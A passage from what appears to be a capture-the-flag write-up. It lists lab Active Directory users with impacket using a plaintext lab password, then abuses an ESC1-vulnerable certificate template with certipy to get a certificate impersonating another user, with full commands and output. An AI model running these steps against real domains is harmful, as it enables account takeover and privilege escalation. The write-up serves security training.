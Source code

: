 ```hl_lines="54 110"
            "NORTHPOLE.LOCAL\\Enterprise Admins"
          ],
          "Write Property Principals": [
            "NORTHPOLE.LOCAL\\Domain Admins",
            "NORTHPOLE.LOCAL\\Enterprise Admins"
          ]
        }
      },
      "[!] Vulnerabilities": {
        "ESC1": "'NORTHPOLE.LOCAL\\\\Domain Users' can enroll, enrollee supplies subject and template allows client authentication"
      }
    }
  }
```


I next tried to generate a certificate via certipy using the NorthPoleUsers template, but I kept getting a user not found error `[-] Got error while trying to request TGT: Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)`. <br/>
Using the `GetADUsers` impacket tool, we can get the list of Active Directory users.

```
alabaster@ssh-server-vm:~/impacket$ python3 GetADUsers.py -all -dc-ip 10.0.0.53 'northpole.local/elfy:J4`ufC49/J4766'
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Querying 10.0.0.53 for information about domain.
Name                  Email                           PasswordLastSet      LastLogon           
--------------------  ------------------------------  -------------------  -------------------
alabaster                                             2023-12-27 01:02:50.392719  2023-12-27 03:10:52.363779 
Guest                                                 <never>              <never>             
krbtgt                                                2023-12-27 01:09:59.645468  <never>             
elfy                                                  2023-12-27 01:12:31.816538  <never>             
wombleycube                                           2023-12-27 01:12:31.941545  2023-12-27 03:39:42.394029 
alabaster@ssh-server-vm:~/impacket$ 
```

The user `wombleycube` is a good theory since the information needed for the objective is form Wombley Cube's research department. Let's get a certificate and see if we can auth as `wombleycube`.

```
alabaster@ssh-server-vm:~/impacket$ certipy req -dc-ip 10.0.0.53 -u elfy -p 'J4`ufC49/J4766' -target-ip 10.0.0.53 -ca northpole-npdc01-CA -template NorthPoleUsers
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 18
[*] Got certificate without identification
[*] Certificate has no object SID
[*] Saved certificate and private key to 'elfy.pfx'
alabaster@ssh-server-vm:~$ certipy req -u elfy -p 'J4`ufC49/J4766' -ca northpole-npdc01-CA -target 10.0.0.53 -template NorthPoleUsers -upn 'wombleycube@northpole.local' -pfx elfy.pfx
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 24
[*] Got certificate with UPN 'wombleycube@northpole.local'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'wombleycube.pfx'
```